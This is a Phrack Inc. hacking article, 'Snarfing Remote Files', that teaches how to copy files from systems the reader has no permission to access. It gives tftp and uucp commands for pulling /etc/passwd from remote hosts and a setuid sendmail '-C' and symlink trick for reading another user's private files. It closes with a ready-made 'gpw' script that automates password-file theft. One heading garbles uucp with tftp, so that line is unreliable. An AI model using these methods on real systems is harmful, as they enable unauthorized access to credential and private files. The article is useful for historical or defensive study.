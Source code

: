 
                               ==Phrack Inc.==
 
                     Volume Three, Issue 28, File #6 of 12
                     +++++++++++++++++++++++++++++++++++++
                     +                                   +
                     +       Snarfing Remote Files       +
                     +                                   +
                     +                by                 +
                     +                                   +
                     +           Dark OverLord           +
                     +                                   +
                     +++++++++++++++++++++++++++++++++++++
 
There are many ways of getting copies of files from a remote system that you
do not have permission to read or an account on login on to and access them
through.  Many administrators do not even bother to restrict many access
points that you can use.
 
Here are the simplest ways:

A)  Use uucp(1) [Trivial File Transfer Protocol] to retrieve a copy
    of a file if you are running on an Internet based network.
 
B) Abuse uucp(1) [Unix to Unix Copy Program] to retrieve a copy of a file
   if uucp connections are running on that system.
 
C) Access one of many known security loopholes. 
 
In the following examples, we will use the passwd file as the file to acquire
since it is a readable file that can be found on most systems that these
attacks are valid on.
 
## Method A :
 
1) First start the tftp program:
    Enter the command:
    tftp

       [You have the following prompt:]
    tftp>
  
2) The next step is to connect to the system that you wish to retrieve files
from.  At the tftp, type:
 
    tftp> connect other.system.com
 
 
3) Now request the file you wish to get a copy of (in our case, the
passwd file /etc/passwd ):
 
    tftp> get /etc/passwd /tmp/passwd
 
    [You should see something that looks like the following:]
 
    Received 185659 bytes in 22 seconds.
 
4) Now exit the tftp program with the "quit" command:
 
    tftp> quit
 
You should now have a copy of other.system.com's passwd file in your directory.
 
NOTE:  Some Unix systems' tftp programs have a different syntax.  The above was tested under SunOS 4.0
 
For example, on Apollos, the syntax is:
 
    tftp -{g|g!|p|r|w} <local file> <host> <foreign file> [netascii|image]
 
Thus you must use the command:
 
    tftp -g password_file networked-host /etc/passwd
 
Consult your local "man" pages for more info (or in other words RTFM).
 
At the end of this article, I will include a shell script that will snarf a
password file from a remote host.  To use it type:
 
    gpw system_name
 
## Method B :
 
Assuming we are getting the file  /etc/passwd  from the system uusucker, and
our system has a direct uucp connection to that system, it is possible to
request a copy of the file through the uucp links.  The following command will
request that a copy of the passwd file be copied into uucp's home directory
/usr/spool/uucppublic :
 
    uucp -m uusucker!/etc/passwd '>uucp/uusucker_passwd'
 
The flag "-m" means you will be notified by mail when the transfer is
completed.
 
## Method C:

The third possible way to access the desired file requires that you have
the login permission to the system.
 
In this case we will utilize a well-known bug in Unix's sendmail daemon.
 
The sendmail program has and option "-C" in which you can specify the
configuration file to use (by default this file is /usr/lib/sendmail.cf or
/etc/sendmail.cf).  It should also be noted that the diagnostics outputted by
sendmail contain the offending lines of text.  Also note that the sendmail
program runs setuid root.
 
The way you can abuse this set of facts (if you have not yet guessed) is by
specifying the file you wish read as the configuration file.  Thus the command:
 
    sendmail -C/usr/accounts/random_joe/private/file
 
Will give you a copy of random joe's private file.
 
Another similar trick is to symlink your .mailcf file to joe's file and mail
someone.  When mail executes sendmail (to send the mail), it will load in your
mailcf and barf out joe's stuff.
 
First, link joe's file to your .mailcf .
 
    ln -s /usr/accounts/random_joe/private/file $HOME/.mailcf
 
Next, send mail to someone.
 
    mail C488869@umcvmb.missouri.edu
 
And have fun.

   :
   : gpw copyright(c) Dark Overlord
   :
   /usr/ucb/tftp $1 << EOF
   mode ascii
   verbose
   trace
   get /etc/passwd /tmp/pw.$1
   quit
   EOF

Exodus
